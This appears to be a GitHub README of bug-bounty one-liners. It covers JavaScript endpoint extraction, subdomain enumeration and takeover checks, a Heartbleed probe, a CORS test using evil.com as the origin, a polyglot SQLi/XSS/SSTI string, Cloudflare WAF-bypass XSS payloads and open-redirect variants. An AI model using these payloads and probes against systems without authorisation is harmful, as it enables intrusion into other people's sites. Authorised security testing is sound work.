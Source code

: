 # BugBounty Resources

## Introduction


I always have to search for commands everytime I start to hunt for bugs.Therefore, I created this repository to list all useful commands of different tools. My intention is to make a repository containing all the important commands, technique and oneliners helpful for reconnaissance. 

If you think any important commands were not listed in this repository, feel free to contribute. 

## Extracting endpoints from JavaScript files:
	cat main.js | grep -oh "\"\/[a-zA-Z0-9_/?=&]*\"" | sed -e 's/^"//' -e 's/"$//' | sort -u

## Extracting Juicy Information:
    for sub in $(cat domains.txt);do /usr/bin/gron "https://otx.alienvault.com/otxapi/indicator/hostname/url_list/$sub?limit=100&page=1" | grep "\burl\b" | gron --ungron | jq |egrep -wi 'url' | awk '{print $2}' | sed 's/"//g'| sort -u | tee -a file.txt  ;done

## Extracting all the urls from sitemap
	curl -s domain.com/sitemap.xml | xmllint --format - | grep -e 'loc' | sed -r 's|</?loc>||g'

## CORS Misconfiguration:
    site="https://example.com"; gau "$site" | while read url;do target=$(curl -s -I -H "Origin: https://evil.com" -X GET $url) | if grep 'https://evil.com'; then [Potentional CORS Found]echo $url;else echo Nothing on "$url";fi;done

## Heartbleed vulnerability
    cat domains.txt
        example.com
        subdomain.example.com
    cat list.txt | while read line ; do echo "QUIT" | openssl s_client -connect $line:443 2>&1 | grep 'server extension "heartbeat" (id=15)' || echo $line: safe; done
  
 ## Finding subdomains and check for takeovers 
      subfinder -d {target} >> domains ; assetfinder -subs-only {target} >> domains ; amass enum -norecursive -noalts -d {target} >> domains ; subjack -w domains -t 100 -timeout 30 -ssl -c ~/fingerprints.json -v 3 >> takeover ;
    
  ## Testing SQLi + XSS + SSTI with the same payload use
  	"><svg/onload=prompt(5);>{{7*7}}
  
  ##  XSS Cloudflare WAF bypass: 
  	<img%20id=%26%23x101;%20src=x%20onerror=%26%23x101;;alert`1`;>
	<select><noembed></select><script x=’a@b’a>y=’a@b’//a@b%0a\u0061lert(1)</script x>
	<a+HREF=’%26%237javascrip%26%239t:alert%26lpar;document.domain)’>
	
  ## Valid URLs (Open Redirect Vulnerability)
	http(s)://evil.com
	http(s):\\evil.com
	//evil.com
	///evil.com
	/\/evil.com
	\/evil.com
	\\evil.com
	\/\evil.com
	/	/evil.com (That's a Tab Key / ASCII 0x09)
	\	\evil.com (That's a Tab Key / ASCII 0x09)

#### Refrences:
  - https://github.com/dwisiswant0/awesome-oneliner-bugbounty
  - https://github.com/XalfiE/Bug-Bounty-Oneliners
  - https://bbinfosec.medium.com/collection-of-bug-bounty-tip-will-be-updated-daily-605911cfa248
  

